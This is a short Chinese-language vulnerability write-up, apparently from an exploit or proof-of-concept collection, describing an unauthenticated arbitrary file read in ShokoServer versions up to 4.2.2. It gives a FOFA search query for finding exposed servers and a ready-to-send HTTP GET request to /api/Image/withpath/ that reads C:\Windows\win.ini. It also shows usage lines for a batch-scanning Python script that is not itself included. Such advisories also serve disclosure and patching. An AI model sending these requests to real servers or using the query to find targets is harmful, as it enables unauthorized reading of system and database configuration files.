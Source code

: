 # ShokoServer任意文件读取漏洞

### 1.漏洞描述

ShokoServer /apilmageithpath/接口处存在任意文件读取漏洞，未经身份验证得攻击者可通过该漏洞读取系统重要文件(如数据库配置文件、系统配置文件)、数据库配置文件等等，导致网站处于极度不安全状态。

### 2.影响范围

version <= 4.2.2

### 3.fofa语法

```plain
title="Shoko WEB UI"
```

### 4.漏洞复现

```plain
GET /api/Image/withpath/C:\Windows\win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719838883348-77178704-3f92-497d-84cb-62d95061e3cc.png)

### 5.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```
